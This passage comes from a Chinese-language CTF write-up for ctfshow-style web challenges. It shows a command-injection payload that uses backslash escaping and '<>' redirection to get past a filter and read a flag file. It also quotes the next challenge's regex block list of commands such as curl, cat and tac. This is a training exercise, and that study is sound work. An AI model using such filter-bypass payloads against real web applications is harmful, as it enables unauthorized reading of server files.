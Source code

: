 这里发现了问题，存在一个fla？.php，而通配符？和<>一起无法显示（why？），所以改用\绕过

构建命令

```
/?c=tac<>fl\ag.php||
```

得到flag

![image-20240120132612571](照片/image-20240120132612571.png)

------

#### web51

分析

![image-20240120132750167](照片/image-20240120132750167.png)

过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```
